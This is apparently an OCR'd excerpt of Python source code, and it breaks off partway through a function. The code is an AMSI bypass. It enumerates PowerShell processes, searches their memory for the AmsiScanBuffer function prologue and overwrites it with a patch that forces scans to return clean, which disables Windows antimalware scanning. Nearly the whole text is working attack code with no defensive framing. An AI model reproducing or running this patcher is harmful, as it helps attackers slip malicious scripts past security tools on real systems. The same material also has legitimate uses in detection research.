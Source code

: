 ```python
def getPowershellPids():
    ppids = [pid for pid in psutil.pids() if psutil.Process(pid).name() == 'powershell.exe']
    return ppids


def readBuffer(handle, baseAddress, AmsiScanBuffer):
    KERNEL32.ReadProcessMemory.argtypes = [c_ulong, c_void_p, c_void_p, c_ulong, c_int]
    while True:
        lpBuffer = create_string_buffer(b'', len(AmsiScanBuffer))
        nBytes = c_int(0)
        KERNEL32.ReadProcessMemory(handle, baseAddress, lpBuffer, len(lpBuffer), nBytes)
        if lpBuffer.value == AmsiScanBuffer or lpBuffer.value.startswith(b'\x29\xc0\xc3'):
            return baseAddress
        else:
            baseAddress += 1


def writeBuffer(handle, address, buffer):
    nBytes = c_int(0)
    KERNEL32.WriteProcessMemory.argtypes = [c_ulong, c_void_p, c_void_p, c_ulong, c_void_p]
    KERNEL32.VirtualProtectEx.argtypes = [c_ulong, c_void_p, c_size_t, c_ulong, c_void_p]

    res = KERNEL32.VirtualProtectEx(handle, address, len(buffer), PAGE_READWRITE, byref(c_ulong()))
    if not res:
        print(f'[-] VirtualProtectEx Error: {KERNEL32.GetLastError()}')
    res = KERNEL32.WriteProcessMemory(handle, address, buffer, len(buffer), byref(nBytes))
    if not res:
        print(f'[-] WriteProcessMemory Error: {KERNEL32.GetLastError()}')
    return res


def getAmsiScanBufferAddress(handle, baseAddress):
    AmsiScanBuffer = (
        b'\x4c\x8b\xdc' +       # mov r11,rsp
        b'\x49\x89\x5b\x08' +   # mov qword ptr [r11+8],rbx
        b'\x49\x89\x6b\x10' +   # mov qword ptr [r11+10h],rbp
        b'\x49\x89\x73\x18' +   # mov qword ptr [r11+18h],rsi
        b'\x57' +               # push rdi
        b'\x41\x56' +           # push r14
        b'\x41\x57' +           # push r15
        b'\x48\x83\xec\x70'     # sub rsp,70h
    )
    return readBuffer(handle, baseAddress, AmsiScanBuffer)


def patchAmsiScanBuffer(handle, funcAddress):
    patchPayload = (
        b'\x29\xc0' +           # xor eax,eax
        b'\xc3'                 # ret
    )
    return writeBuffer(handle, funcAddress, patchPayload)


def getAmsiDllBaseAddress(handle, pid):
    MAX_PATH = 260
    MAX_MODULE_NAME32 = 255
    TH32CS_SNAPMODULE = 0x00000008
    class MODULEENTRY32(Structure):
        _fields_ = [ ('dwSize', c_ulong) ,
                    ('th32ModuleID', c_ulong),
                    ('th32ProcessID', c_ulong),
                    ('GlblcntUsage', c_ulong),
                    ('ProccntUsage', c_ulong) ,
```